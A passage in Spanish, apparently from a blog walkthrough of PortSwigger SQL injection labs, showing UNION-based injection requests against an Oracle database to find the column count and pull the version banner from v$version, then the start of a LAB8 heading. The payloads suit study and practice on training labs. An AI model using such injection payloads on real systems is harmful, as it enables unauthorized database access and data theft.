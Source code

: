 * **Explotación**

En este caso, se está empleando Oracle. Es necesario indicar en todo momento una tabla. La más común en la enumeración es ```dual``.

```null
GET /filter?category=Gifts'+union+select+NULL,NULL+from+dual--+- HTTP/2
```

Extraigo la versión. Para ello, es necesario conocer un campo en el que incluir la tabla que la contiene

```null
GET /filter?category=Gifts'+union+select+NULL,banner+from+v$version--+- HTTP/2
```

<img src="/img/articulos/sqli-portswigger/32.png" alt="">

# LAB8

* **Instrucciones**

<img src="/img/articulos/sqli-portswigger/33.png" alt="">

* **Página Principal**
